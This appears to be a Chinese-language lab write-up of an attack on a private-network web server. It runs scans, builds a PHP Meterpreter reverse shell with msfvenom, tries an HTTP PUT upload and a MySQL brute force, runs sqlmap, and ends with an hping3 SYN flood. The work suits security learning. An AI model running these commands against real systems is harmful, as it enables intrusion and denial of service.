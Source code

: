 
以下tool皆在 kali Linux 使用

# nmap 網路檢測

    $ nmap 10.101.3.122

![Image](https://i.imgur.com/IHsYjw5.png)

只有 port 80, 3306, 5357 打開


偵測作業系統版本

    $ nmap -A 10.101.3.122

or 

    $ nmap -O 10.101.3.122

![Image](https://i.imgur.com/84DtRli.png)

AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP2 (85%)

可能是Windows XP OS


測試主機是否有防火牆

    $ nmap -sA 10.101.3.122

![Image](https://i.imgur.com/bYvnQWA.png)

Starting Nmap 7.70 ( https://nmap.org ) at 2019-12-23 01:24 EST
Nmap scan report for 10.101.3.122
Host is up (0.00055s latency).
All 1000 scanned ports on 10.101.3.122 are filtered
MAC Address: 02:00:0A:65:03:7A (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 21.14 seconds

# nikto 網路弱點掃描

偵測port 80,3306,5357弱點

    $ nikto -h 10.101.3.122 -p 80, 3306, 5357

![Image](https://i.imgur.com/OxipnPa.png)


OSVDB-397 可以使用 put 方法

# dirb 搜尋可能的uri

    $ dirb http://10.101.3.122/esncku/

![Image](https://i.imgur.com/ckTq61d.png)

搜尋出 "esncku/console", "esncku/en", "esncku/inc", "esncku/upload", "esncku/zh" 路徑

# nmap 偵測uri http 方法

    $ nmap -script http-methods -script-args http-methods.url-path='/esncku/',http-methods.test-all -p 80 10.101.3.122

![Image](https://i.imgur.com/NyOTI3M.png)

建立PHP Meterpreter reverse shell

    $ msfvenom -p php/meterpreter/reverse_tcp lhost=10.101.3.61 lport=4444 -f raw > /root/meterpreter.php

嘗試將建立出來的 meterpreter.php 送上server

    $ nmap -sV -script http-put -script-args http-put.url='/esncku/meterpreter.php',http-put.file='/meterpreter.php' -p 80 10.101.3.122

![Image](https://i.imgur.com/KgA0zbE.png)

失敗....

# MYSQL渗透

    $ msfconsole
    $ nmap --script=mysql-info 10.101.3.122
    $ use auxiliary/scanner/mysql/mysql_version
    $ set RHOSTS 10.101.3.122
    $ exploit

![Image](https://i.imgur.com/4nrHTD0.png)

似乎不允許這台IP連線，不過還是繼續試試看

    $ use auxiliary/scanner/mysql/mysql_login
    $ set RHOSTS 10.101.3.122
    $ set user_file /usr/share/metasploit-framework/data/wordlists/db2_default_user.txt
    $ set pass_file /usr/share/metasploit-framework/data/wordlists/db2_default_pass.txt
    $ exploit
![Image](https://i.imgur.com/tBRjLlA.png)

不支援My-SQL ?

# XSS Try 

![Image](https://i.imgur.com/PXRLCoR.png)

![Image](https://i.imgur.com/i2bqrQd.png)

![Image](https://i.imgur.com/3QsAEAn.png)


# SQL injection

![Image](https://i.imgur.com/og5wkCY.png)

# 使用sqlmap讀取資料庫資料

sqlmap -u http://10.101.3.122/esncku/zh/page.teacher.query.action?id=2

sqlmap -u http://10.101.3.122/esncku/download.action?id=107&path=resource.document.file

sqlmap -u http://10.101.3.122/esncku/console/image.teacher.action?personId=34

![Image](https://i.imgur.com/B4iJbMM.png)

嘗試以上網址都找不到突破點


# 開大絕DDOS

    $ hping3 -c 100000000 -d 120 -S -V -w 64 --flood --rand-source 10.101.3.122

![Image](https://i.imgur.com/cf0ogAz.png)

開另一個分頁，偵測local網卡封包

    $ tshark

![Image](https://i.imgur.com/CzLNVpM.png)

打開target網頁，網頁loading變慢

![Image](https://i.imgur.com/wIfRhfC.png)

